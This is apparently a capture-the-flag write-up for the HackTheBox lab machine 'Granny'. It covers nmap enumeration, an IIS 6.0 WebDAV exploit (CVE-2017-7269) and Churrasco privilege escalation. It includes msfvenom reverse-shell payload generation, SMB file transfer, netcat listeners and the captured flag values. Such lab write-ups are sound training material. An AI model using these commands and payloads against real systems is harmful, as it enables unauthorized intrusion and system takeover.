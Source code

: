 ```yaml
---
layout: post
title: HackTheBox Granny
date: 2017-04-12
tags: [HackTheBox, Windows]
---
```


# Machine Synopsis
Granny, while similar to Grandpa, can be exploited using several different methods. The intended method of solving this machine is the widely-known Webdav upload vulnerability. ([Source](https://www.hackthebox.com/machines/granny))

# Enumeration

```bash
┌──(root💀shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.15  
Nmap scan report for 10.10.10.15
Host is up (0.0041s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Mon, 07 Feb 2022 13:06:12 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows 2000 SP4 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   4.33 ms 10.10.14.1
2   4.48 ms 10.10.10.15

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.83 seconds
```

![Website](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Granny/Website.png?raw=true)

It seems like the website is under construction. There was also nothing much found from directory busting.

# Exploitation

From the `nmap` scan, we know that the website is running on `Microsoft IIS httpd 6.0`.

![Google_Search](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Granny/Google_Search.png?raw=true)

It seems like this version has a vulnerability of `CVE-2017-7269`. This [GitHub](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269) repository happens to have what we are looking for.

```bash
┌──(root💀shiro)-[/home/shiro/HackTheBox/Granny]
└─# python exploit.py 10.10.10.15 80 10.10.14.3 1234
...

┌──(shiro㉿shiro)-[~]
└─$ nc -nlvp 1234 
listening on [any] 1234 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.15] 1248
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
nt authority\network service

C:\Documents and Settings>cd C:\Documents and Settings
C:\Documents and Settings>dir
04/12/2017  09:19 PM    <DIR>          .
04/12/2017  09:19 PM    <DIR>          ..
04/12/2017  08:48 PM    <DIR>          Administrator
04/12/2017  04:03 PM    <DIR>          All Users
04/12/2017  09:19 PM    <DIR>          Lakis
               0 File(s)              0 bytes
               5 Dir(s)   1,382,207,488 bytes free

C:\Documents and Settings>cd Lakis
Access is denied.
```

# Privilege Escalation

Let’s run `systeminfo` to view the OS version.

```powershell
C:\Documents and Settings>systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 23 Hours, 54 Minutes, 7 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 733 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,285 MB
Page File: In Use:         185 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

It seems like its running on `Windows Server 2003` which is vulnerable to `MS09-012`. We can exploit this using [repository](https://github.com/egre55/windows-kernel-exploits/blob/master/MS09-012:%20Churrasco/Compiled/Churrasco.exe).

```bash
┌──(root💀shiro)-[/home/shiro/HackTheBox/Granny]
└─# wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe 

┌──(root💀shiro)-[/home/shiro/HackTheBox/Granny]
└─# impacket-smbserver kali .
```

Now, we need to create a `temp` directory in `C:\` to have writeable privileges. Then, we can copy the file over the SMB server we created.

```
c:\windows\system32\inetsrv>cd C:\
C:\>mkdir temp
C:\>cd temp
C:\temp>dir \\10.10.14.3\KALI
02/08/2022  05:09 PM    <DIR>          .
02/08/2022  02:53 PM    <DIR>          ..
02/08/2022  02:44 PM            12,312 exploit.py
02/08/2022  03:37 PM    <DIR>          wesng
02/08/2022  05:09 PM           168,179 churrasco.exe
               2 File(s)        192,779 bytes
               3 Dir(s)  15,207,469,056 bytes free

C:\temp>copy \\10.10.14.3\KALI\churrasco.exe .
        1 file(s) copied.

C:\temp>churrasco.exe
/churrasco/-->Usage: Churrasco.exe [-d] "command to run"
C:\WINDOWS\TEMP

C:\temp>churrasco.exe "whoami"         
nt authority\system

C:\temp>churrasco.exe "cmd.exe"
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP> whoami
nt authority\system

C:\>ipconfig

C:\temp>whoami
nt authority\network service
```

The exploit works, but only for 1 single command. We can bypass this by creating a `msfvenom` payload as an `exe` file, transfer it through SMB server and then ask the exploit to run it.

```bash
┌──(root💀shiro)-[/home/shiro/HackTheBox/Granny]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=1337 -f exe -o shell.exe

┌──(root💀shiro)-[/home/shiro/HackTheBox/Granny]
└─# impacket-smbserver kali .
...
```

```
C:\temp>copy \\10.10.14.3\KALI\shell.exe .
        1 file(s) copied.
```

Now, we can start yet another listener on our machine and execute the `shell.exe` using `churrasco.exe`!

```
C:\temp>churrasco.exe "C:\temp\shell.exe"
```

```bash
┌──(shiro㉿shiro)-[~/HackTheBox/Granny]
└─$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.15] 1041
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
nt authority\system

C:\Documents and Settings>cd "C:\Documents and Settings\Lakis\Desktop"
C:\Documents and Settings\Lakis\Desktop>type user.txt
700c5dc163014e22b3e408f8703f67d1

C:\Documents and Settings\Lakis\Desktop>cd "C:\Documents and Settings\Administrator\Desktop"
C:\Documents and Settings\Administrator\Desktop>type root.txt
aa4beed1c0584445ab463a6747bd06e9
```

